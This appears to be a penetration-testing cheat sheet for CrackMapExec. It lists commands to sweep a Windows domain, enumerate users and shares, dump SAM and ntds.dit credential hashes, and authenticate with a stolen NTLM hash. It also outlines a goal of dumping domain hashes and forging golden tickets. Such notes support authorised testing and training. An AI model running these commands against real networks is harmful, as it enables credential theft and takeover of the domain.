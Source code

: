 



# CrackMapExec

Once we have access to a domain, CrackMapExec (CME) will allow us to sweep the network and see which users and machines we can access to.

CME allows us to authenticate ourselves with the following protocols:

- smb
- ssh
- mssql
- ldap
- winrm

The most used protocol is smb as port 445 is commonly open.

## Installation

```bash
sudo apt-get -y install crackmapexec
```


## Basic usage

Main syntax

```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```bash
# Check if we can access a machine
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN>

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Get sam: all users authenticated in the machine and their hashes
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# See shares
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --shares

# Enumerate active sessions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sessions

# Enumerate users of the domain
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --users

# Enumerate logged on users
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Using a hash instead of a password, to authenticate ourselves
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>
```

## Basic technique

Once we have access to  a domain:

1. Enumerate users and machines in our machine: we will have all users registered and their hashes. 

2. See if any user is in another machine of the domain. Also check if they have admin access.

3. Goal would be to dump ntds.dit.

With krbtgt and DC$ user you can get a golden ticket. And with DC$ a silver ticket.


## What is a SAM hash like?

Take the Administrator one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Basically, it has 4 parts: 

					user : id: LM-authentication : NTLM

For the purpose of using the hash with CrackMapExec, we will user the NTLM part.






